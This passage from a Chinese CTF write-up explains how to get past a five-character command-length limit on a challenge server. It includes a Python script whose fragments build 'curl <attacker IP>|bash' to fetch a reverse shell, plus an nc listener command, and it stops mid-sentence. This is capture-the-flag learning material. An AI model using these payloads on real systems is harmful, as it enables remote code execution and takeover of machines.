 ```
    '>sh\ ', 
    '>ba\\', 
    '>\|\\',
    '>x\\', 
    '>xx\\',  
    '>3.\\',
    '>23\\', 
    '>7.\\',
    '>15\\', 
    '>2.\\', 
    '>8\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
 
    # exec
    'sh _', 
    'sh g', 
]
 
 
 
r = requests.get('http://b5a65bfa-575e-43a8-9a44-fb0bf56cde88.node4.buuoj.cn:81//?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://b5a65bfa-575e-43a8-9a44-fb0bf56cde88.node4.buuoj.cn:81//?cmd=' + quote(i) )
    print(i)
    sleep(0.2)
```


直接拿这个脚本跑显然是跑不动的 ，首先你要去你wps里放反弹shell的代码（比如这样）

<figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/1-3.png" alt="" class="wp-image-376"/></figure>




这就是最常见的弹shell方式了，不懂可以看<a href="https://blog.csdn.net/mastergu2/article/details/120975065">这个</a>。

为了执行反弹shell，我们用艰难的方式构造出来了ls -tg，接下来只要按顺序构造出curl 82.157.233.xxx|bash，然后我们分别执行sh ，sh g，执行第一个文件是为了执行里面的内容ls -tg，执行了这个之后我们就在文件g里按时间顺序构造出了弹shell的代码，然后再执行sh g就成果弹shell了，我们这边只要监听你设定的端口就可以远程操控目标机了🎉🎉

```
nc -lvvp 9383   #监听9383端口，这里是我反弹shell的指定端口
```


然后在根目录下找到flag，拿下!

<figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/1-4.png" alt="" class="wp-image-379"/></figure>


写脚本的时候我遇到一个坑，浪费了我很多时间没能成功反弹shell，就是我构造ip的时候用了"&gt;.7\\"，懂Linux的都知道在文件名前加点号表示隐藏这个文件，但当时我没意识到这样会对最后构造的命令有影响，后面我本地试的时候才发现出了问题：
